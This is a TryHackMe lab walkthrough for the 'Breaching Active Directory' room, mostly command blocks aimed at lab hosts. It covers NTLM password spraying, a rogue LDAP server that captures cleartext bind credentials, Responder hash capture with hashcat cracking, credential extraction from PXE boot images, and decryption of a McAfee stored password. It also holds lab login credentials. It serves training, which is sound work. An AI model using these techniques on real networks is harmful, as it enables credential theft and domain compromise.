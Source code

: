 # Breaching Active Directory

**Room Link:** [https://tryhackme.com/room/breachingad](https://tryhackme.com/room/breachingad)



## Introduction to AD Breaches

**Kali**

```
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
nslookup thmdc.za.tryhackme.com
```

## NTLM Authenticated Services

**Kali**

```
unzip passwordsprayer.zip 
python /root/Rooms/BreachingAD/task3/ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a "http://ntlmauth.za.tryhackme.com"
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## LDAP Bind Credentials

**Kali**

```
service slapd stop
nc -lvp 389
```

<figure><img src="../../.gitbook/assets/image (9) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Hosting a Rogue LDAP Server

**Kali**

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
vi olcSaslSecProps.ldif
```



**olcSaslSecProps.ldif**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

* olcSaslSecProps: Specifies the SASL security properties
* noanonymous: Disables mechanisms that support anonymous login
* minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

**Kali**

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**Before**

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**After**

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Capturing LDAP Credentials

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:



<figure><img src="../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo tcpdump -SX -i breachad tcp port 389
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



## Authentication Relays

**Kali**

```
sudo service slapd stop
sudo responder -I breachad
```

<figure><img src="../../.gitbook/assets/image (7) (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (9) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**

```
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>
